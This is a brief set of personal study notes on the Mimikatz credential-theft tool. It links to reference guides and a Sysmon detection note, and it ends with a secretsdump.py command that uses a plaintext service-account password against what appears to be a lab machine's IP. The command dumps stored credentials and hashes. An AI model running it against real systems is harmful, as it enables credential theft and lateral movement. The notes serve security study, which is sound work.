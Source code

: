 
[Home · gentilkiwi/mimikatz Wiki · GitHub](https://github.com/gentilkiwi/mimikatz/wiki)
# Guide

1. [Mimikatz – Active Directory Security](https://adsecurity.org/?page_id=1821)
2. [Mimikatz | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

# Walkthrough 

1. See [[System Monitor (Sysmon)#Detection Example 3 Detecting Credential Dumping]]

# Secrets Dump

```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```